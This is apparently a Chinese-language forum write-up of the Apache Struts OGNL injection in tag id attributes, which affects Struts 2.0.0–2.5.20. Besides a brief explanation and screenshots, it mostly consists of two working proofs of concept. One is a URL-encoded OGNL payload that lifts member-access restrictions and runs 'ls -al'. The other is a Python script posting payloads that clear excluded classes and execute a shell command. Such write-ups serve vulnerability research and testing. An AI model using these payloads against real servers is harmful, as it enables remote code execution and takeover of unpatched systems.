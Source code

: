 ##### Apache Struts框架，会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签睡醒时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程代码执行！

#### 影响版本

```php
Struts 2.0.0 - Struts 2.5.20
```

#### 启动漏洞

![image-20210711210933003](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0f5a0ceda579181a66e4062aeccadc39c9be4832.png)

![image-20210711211155033](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ae8e0bea705527524822121b9bb9ab073e77d628.png)

##### 验证漏洞是否存在

![image-20210711211356657](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-66000fc147966d2a04dc66bb21ba79b596443cdf.png)

##### poc-1

```php
%25%7b%23_memberAccess.allowPrivateAccess%3Dtrue%2C%23_memberAccess.allowStaticMethodAccess%3Dtrue%2C%23_memberAccess.excludedClasses%3D%23_memberAccess.acceptProperties%2C%23_memberAccess.excludedPackageNamePatterns%3D%23_memberAccess.acceptProperties%2C%23res%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23a%3D%40java.lang.Runtime%40getRuntime()%2C%23s%3Dnew%20java.util.Scanner(%23a.exec('ls%20-al').getInputStream()).useDelimiter('%5C%5C%5C%5CA')%2C%23str%3D%23s.hasNext()%3F%23s.next()%3A''%2C%23res.print(%23str)%2C%23res.close()%0A%7d
```

![image-20210711212245546](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3cd14da58525665a249c0c365b7f0358e0ddaa08.png)

##### poc-2 ，python2环境下执行

```php
import requests
url = &quot;http://127.0.0.1:8080&quot;
data1 = {
 &quot;id&quot;: &quot;%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}&quot;
}
data2 = {
 &quot;id&quot;: &quot;%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}&quot;
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```
